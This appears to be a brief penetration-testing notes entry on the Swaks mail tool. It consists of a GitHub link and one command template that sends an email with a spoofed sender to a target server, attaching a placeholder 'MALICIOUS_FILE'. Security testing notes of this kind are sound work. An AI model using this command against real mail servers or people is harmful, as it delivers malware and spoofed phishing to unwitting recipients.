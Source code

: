 # Swaks

## Github: https://github.com/jetmore/swaks

#### 

    swaks --to TARGET@MAIL.COM --from TARGET@MAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --server TARGET_IP --attach @MALICIOUS_FILE
